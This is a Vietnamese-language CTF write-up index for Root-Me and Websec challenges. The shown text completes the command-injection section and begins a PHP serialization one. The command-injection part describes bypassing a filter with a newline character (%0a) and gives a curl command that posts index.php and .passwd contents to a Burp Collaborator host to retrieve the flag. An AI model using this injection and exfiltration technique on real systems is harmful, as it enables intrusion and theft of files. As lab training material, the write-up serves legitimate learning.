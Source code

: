 # rootme & websec writeups

## Index
- [Command injection - Filter bypass](#command-injection---filter-bypass)
- [PHP - Serialization](#php---serialization)
- [Websec level 20](#websec-level-20)
- [PHP - Unserialize Pop Chain](#php---unserialize-pop-chain)


## Command injection - Filter bypass

![image](https://user-images.githubusercontent.com/80137840/225479689-20d917b9-1e02-4f4a-8ee3-66e3255828e2.png)

Trang web trong bài lab

![image](https://user-images.githubusercontent.com/80137840/225481879-5a14fbbf-d997-41b8-86ba-c319615754e4.png)

Nhập đúng IP và ping thành công thì thông báo `Ping OK`. Thử nhập IP 127.0.0.1 và sau đó là các ký tự như '|', '&', '&&', '||', ';' để thực thi tiếp command mới thì response trả về đều là `Syntax Error`. Đây là dạng blind CMDi

![image](https://user-images.githubusercontent.com/80137840/225482493-ef96913e-1370-4197-9a63-f249fac9f136.png)

Tuy nhiên khi sử dụng %0a thì trả về Ping OK. Đề bài cho flag nằm ở file index.php nên ta sẽ send POST request cùng nội dung file index.php làm data trong body request tới Burp Collaborator với syntax như sau: `curl -X POST -d @index.php https://6biwcpqu3yrtyspjnfgp757fj6pxdn1c.oastify.com/`

![image](https://user-images.githubusercontent.com/80137840/225484604-ce22f4c2-c3c0-468a-b905-aec7d10ed6c5.png)

Kiểm tra request nhận được

![image](https://user-images.githubusercontent.com/80137840/225484790-b93eab5d-fff0-48eb-9126-ae7ff5ff6c20.png)

Ta thấy flag có get contents từ file `.passwd`. Send lại POST request với nội dung file .passwd để read flag

![image](https://user-images.githubusercontent.com/80137840/225485037-bba8bfc5-7013-420c-bedc-a85367b3659d.png)

Flag: `Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!`


## PHP - Serialization

![image](https://user-images.githubusercontent.com/80137840/225498212-6c7b4f7c-0b8f-4f27-aceb-18bf5712c88f.png)

Trang web bài lab và source code

![image](https://user-images.githubusercontent.com/80137840/225498347-34f0678e-f249-4868-bc6d-c351dbf6dfb3.png)

```php
<?php
define('INCLUDEOK', true);
session_start();

if(isset($_GET['showsource'])){
    show_source(__FILE__);
    die;
}

/******** AUTHENTICATION *******/
// login / passwords in a PHP array (sha256 for passwords) !
require_once('./passwd.inc.php');

```